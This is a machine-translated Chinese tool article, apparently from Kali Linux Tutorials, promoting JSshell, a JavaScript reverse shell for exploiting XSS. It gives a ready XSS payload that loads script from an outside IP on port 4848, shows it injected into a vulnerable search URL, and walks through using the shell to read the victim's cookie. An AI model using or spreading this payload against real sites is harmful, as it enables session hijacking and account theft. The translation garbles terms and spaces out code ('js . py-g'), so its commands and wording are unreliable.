

# JSshell——一个 JavaScript 反向 shell，用于远程利用 XSS 或寻找盲人 XSS

> 原文：<https://kalilinuxtutorials.com/jsshell/>

**JSshell** 是一个 JavaScript 反向 shell。这用于远程利用 XSS，帮助找到盲人 XSS。

该工具适用于 Unix 和 Windows 操作系统，可以在 Python 2 和 Python 3 上运行。这是 JShell 的一个重大更新——一个通过 s0med3v 用 XSS 获得 JavaScript shell 的工具。JSshell 也不需要 Netcat(不同于其他 javascript shells)。

**用途**

*   生成 JS 反向 shell 负载:-g
*   设置监听和生成有效负载的本地端口号(默认情况下，将设置为 4848): -p
*   设置用于生成有效负载的本地源地址(JSshell 将默认检测您的 IP 地址):-s
*   为 shell 连接设置超时(如果用户退出页面，shell 将暂停，如果您设置了超时，过一会儿没有响应，shell 将自动关闭):-w

得到 shell 后执行一个命令:-c

**示例用法:**

js . py
js . py-g
js . py-p 1234
js . py-s 48 . 586 . 1 . 23-g
js . py-c " alert(document . cookie)"-w 10

运行 JSshell 的示例:

这是一个使用 JSshell 逐步利用远程 XSS 的示例。

首先，我们将生成一个反向 JS shell 有效负载，并将 shell 超时设置为 20 秒:

~ # whoami
root
~ # ls
readme . MD js . py
~ # python 3 js . py-g-w 20
Payload:<SVG/onload = setInterval(function(){ with(document)body . appendchild(createElement(" script "))。src = "//171 . 224 . 181 . 106:4848 "}，999) >

监听[any] 4848 上的传入 JS shell …

现在将此有效负载粘贴到易受 XSS 攻击的网站(或 URL ):

[https://vulnwebs1te.com/b/search?q=](https://vulnwebs1te.com/b/search?q=)<SVG/onload = setInterval(function(){ with(document)body . appendchild(createElement(" script "))。src = "//171 . 224 . 181 . 106:4848 "}，1248) >

访问该页面，现在我们将看到我们得到了反向 JS shell:

有效载荷:

监听【any】4848 上传入的 JS shell……
从【75.433.24.128】端口 39154 获取 JS shell 到桌面-1 gsl2o 2 4848
$ established
$ the
$ shell
$
$
$ help
JS shell 使用 javascript 代码作为 shell 命令。还支持一些命令:
帮助此帮助
退出，quit 退出 JS shell

现在让我们执行一些命令:

$ var test = ' hacked '
$ alert(hacked)
$

浏览器收到了警告:黑客入侵

$ prompt(document.cookie)
$

并且浏览器打印用户 cookie:j session = 3 BDA 8…

$ exit
~ # whoami
root
~ # pwd
/home/sheld3v
~ #

我们放弃了！

**信用**

这是 shelld3v 用秘密账号在 HackOne 和 Bugcrowd 上黑出来的！这个工具的灵感来自于 JShell (s0med3v)，使用了 BruteLogic 有效载荷。JSshell 2.0 将有一些新特性，包括:

*   更多有效载荷用于、
*   一些快捷命令:打印当前会话、域、端点等
*   更好的 GUI

[**Download**](https://github.com/shelld3v/JSshell)